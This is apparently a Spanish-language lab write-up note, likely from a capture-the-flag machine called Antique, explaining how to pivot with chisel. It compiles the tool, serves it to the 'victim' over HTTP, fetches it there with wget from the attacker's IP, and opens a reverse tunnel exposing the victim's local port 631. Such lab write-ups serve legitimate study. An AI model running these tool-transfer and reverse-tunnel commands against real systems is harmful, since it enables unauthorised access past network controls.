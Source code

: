#chisel

--------

Sirve para hacer tunneling de puertos. Ejemplo hacer que el puerto *631* de nuestra maquina victima sea nuestro puerto local *5000*

----

Como no tenemos [[ssh]] para hacer un tuneling vamos a usar la herramienta [[chisel]]

La vamos a descargar en nuestra maquina usando [[git clone]] con el comando `git clone https://github.com/jpillora/chisel`
Ahora vamos a entrar al repositorio con [[cd]] usando el comando `cd chisel` y vamos a compilar el binario usando `CGO_ENABLED=0 go build -ldflags "-s -w" .`

![[Antique25.png]]
*Explicacion parametros:* ``CGO_ENABLED=0 go build -ldflags "-s -w" .``
	`CGO_ENABLED=0` Desactiva las librerias C externas, no depende de libc ni otras librerias del sistema
	`go build` Es para compilar
	`-ldflags "-s -w"`
		`-s` elimina la tabla de símbolos (debug symbols)
		`-w`elimina información de DWARF (debugging info)
	`.` Directorio actual de trabajo

Mientras levantamos un servidor de [[python3 -m http.server]] con el comando `python3 -m http.server 80` para pasarnos el binario que compilamos antes a la maquina victima

![[Antique22.png]]

Ahora en la maquina victima, vamos a descargar el binario con [[wget]] usando el comando `wget http://10.10.16.15/chisel`

![[Antique24.png]]


Una vez que ya lo tenemos. Desde nuestra maquina ATACANTE vamos a levantar un servidor de [[chisel]] por el puerto 8000 con el comando `./chisel server -p 8000 --reverse`

![[Antique21.png]]
*Explicacion de parametros:*
	`server` Indica que vamos a levantar un servidor
	`-p 8000` Puerto en el que se van a escuchar las conexiones que va a ser el 8000
	`--reverse` Indica que vamos a usar tunneling, que un puerto de la maquina victima se va a transformar en nuestro puerto local


Desde la maquina victima, vamos a ejecutar el binario que previamente descargamos con el comando `./chisel client 10.10.16.15:8000 R:5000:127.0.0.1:631`
![[Antique23.png]]
*Explicacion de parametros:*
	`client` Es que lo vamos a ejecutar como cliente
	`10.10.16.15:8000` En este caso es la ip del servidor de chisel que levantamos anteriormente
	`R:5000` Es el puerto que se va a abrir en nuestra maquina ATACANTE para redirigir el trafico
	`127.0.0.1:631` Es la ip y puerto de la maquina VICTIMA


Ahora el puerto *631* de la maquina VICTIMA va a ser nuestro puerto local *5000* en la maquina ATACANTE
